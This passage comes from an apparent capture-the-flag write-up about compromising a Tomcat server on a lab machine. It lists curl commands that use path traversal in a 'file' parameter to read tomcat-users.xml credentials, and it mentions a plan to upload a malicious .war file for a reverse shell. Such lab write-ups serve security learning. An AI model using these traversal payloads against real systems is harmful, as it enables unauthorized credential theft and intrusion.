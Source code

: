 <img src="{{ site.img_path }}/tabby_writeup/Tabby_17.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I access the port **8080** web service, I find a lot of interesting information, **paths** and **links** that are different authentication panels. A pentester always has the **HackTricks** project, which has all the information centralized, excellent tool to turn to in times of uncertainty. If I look into **[Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat){:target="_blank"}**, it provides me with a lot of information, such as default credentials (which don't work in any of my authentication panels) and the name of a very important file on an **Apache Tomcat** server, **`tomcat-users.xml`**, but I can't find it at the moment.

<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_18.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_19.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_20.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_21.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_22.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_24.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I try searching in different paths on the Internet that indicate that it is possible to save the file, but I have no luck. In the same **HackTricks** resource they point me to a possible path to the very important file I am looking for, as it would allow me to access the **Apache Tomcat Server** dashboard and upload a malicious **`.war`** file to get an **RCE** or **Reverse Shell**. With `curl` I can find the file and access some credentials. **HackTricks** also provides help with sensitive **Tomcat** files that I might be interested in, in their **[Basic Tomcat Info](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat/basic-tomcat-info){:target="_blank"}** resource, I can see a list of them.

> The **`tomcat-users.xml`** file stores user credentials and their assigned roles.

```bash
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../etc/tomcat9/tomcat-users.xml"
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../var/lib/tomcat9/tomcat-users.xml"
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../opt/tomcat/conf/tomcat-users.xml"
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../opt/tomcat9/conf/tomcat-users.xml"

curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml"
```
